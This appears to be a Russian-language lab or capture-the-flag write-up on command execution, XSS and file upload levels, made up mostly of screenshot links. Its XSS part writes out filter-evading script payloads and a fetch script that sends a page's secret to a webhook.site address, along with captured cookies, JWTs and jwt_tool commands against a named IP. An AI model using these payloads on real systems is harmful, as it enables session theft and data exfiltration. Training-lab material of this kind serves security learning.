 Задание CE: уровень 0




![image](https://github.com/user-attachments/assets/35395473-951f-4e6b-8135-bcd7bf1e8fc9)


![image](https://github.com/user-attachments/assets/360ca223-440b-4db3-9c9d-91dff4b2b3dd)


![image](https://github.com/user-attachments/assets/0c1967fc-082c-43e3-88b6-27034452d221)




Задание XSS: уровень 0


![image](https://github.com/user-attachments/assets/b36c8816-b801-4863-82db-aa8e5940411e)

![image](https://github.com/user-attachments/assets/8197605c-2165-4646-a0d8-27c1865e0d14)









Задание FU: уровень 0



![image](https://github.com/user-attachments/assets/9c4f8d0f-572a-4397-8467-d04bdf917dd3

![image](https://github.com/user-attachments/assets/87f3e36c-5994-4ce0-81c3-b427f223a4ae)


![image](https://github.com/user-attachments/assets/874509f7-f323-4f30-86e3-c6f90584ec54)

![image](https://github.com/user-attachments/assets/c653cfc3-2808-4542-9d8b-72afbdaf41c0)










Command Execution: уровень 1

![image](https://github.com/user-attachments/assets/b7ebee0b-3b24-41de-aa81-83540012771a)

![image](https://github.com/user-attachments/assets/cfa68234-318c-41f3-8fb6-f60d2c0faaa2)

![image](https://github.com/user-attachments/assets/4f956069-8a47-4900-8962-71ba8103f02d)



Command Execution: уровень 2


![image](https://github.com/user-attachments/assets/4f2182ee-3b58-4be8-8407-d5c353a10680)


![image](https://github.com/user-attachments/assets/ea996ee5-fe19-47d3-82ae-be4f20bbfb8d)




![image](https://github.com/user-attachments/assets/75ee9eb2-423a-4a37-ab62-975791109093)

![image](https://github.com/user-attachments/assets/7efa1922-9ed9-419b-a7de-fce6a679acb8)




Command Execution: уровень 3

![image](https://github.com/user-attachments/assets/6e7ff00c-b425-47ec-b141-198de6fc58cb)

![image](https://github.com/user-attachments/assets/7cab80e3-b248-480f-8526-bac6d03bc214)

![image](https://github.com/user-attachments/assets/17ea7e22-1900-42e2-a690-1c6942bbdc38)



Command Execution: уровень 4


![image](https://github.com/user-attachments/assets/a797218f-b1dd-4fc3-9d02-2c743f720e34)

![image](https://github.com/user-attachments/assets/493e9da4-b2b0-49f7-a5dd-a0cc15250ba7)





 XSS: уровень 1

 ![image](https://github.com/user-attachments/assets/a200b3e2-622a-4419-8f5b-cb6420feaa74)

 <script>alert(document.cookie)</script>
![image](https://github.com/user-attachments/assets/62e43c79-285c-48cc-941f-9b8698606d7d)



 XSS: уровень 2

 
<body onload=alert(document.cookie)>

 ![image](https://github.com/user-attachments/assets/14402f74-d56c-4beb-a4fe-097906b96645)
 

![image](https://github.com/user-attachments/assets/8d07cb68-9225-41d2-88f3-4d6e0c68bc02)



  XSS: уровень 3



 ![image](https://github.com/user-attachments/assets/b4bddabe-5e73-41a6-920c-91eb1c49f105)

{"alg":"HS256","typ":"JWT"}



'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>

<img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id)>'">

<SvG/oNloAd=alert(/w4piesy3nm/)>

some_important_info

<SvG/oNloAd=alert(some_important_info.txt)>

![image](https://github.com/user-attachments/assets/3092edf7-eacf-44ef-9b63-c685cb6f04ae)


![image](https://github.com/user-attachments/assets/1db9e6f9-d01e-483d-92a3-c297622c1ce9)



token_dare=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU; secret=MzB7WDU1X0MwMGsxM19Nb05TdDNyX30K; important_person_cookies=MzB7eHM1XzFkS193SDBfbjMzRF9pdH0K; token_dare=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU



<script>fetch('/some_important_info').then(r=>r.text()).then(d=>fetch('https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f?flag='+d))</script>


<SvG/oNloAdfetch('/some_important_info').then(r=>r.text()).then(d=>fetch('[https://your-server.com](https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f)?flag='+d))>

<script src="file:/var/www/html/csp-pentesting/malicious.js"></script>

	https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f

python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test"

python3 jwt_tool.py -t http://51.250.91.149/XSS/XSS_level3.php -rc "jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU;anothercookie=test" -M pb-np


![image](https://github.com/user-attachments/assets/6def24d6-e4ef-431c-9ea4-770bf8c84be5)

![image](https://github.com/user-attachments/assets/8899d99c-af68-4706-9606-d505730989e4)

![image](https://github.com/user-attachments/assets/a9f8020a-6fd6-4069-89a4-71a248193b3c)

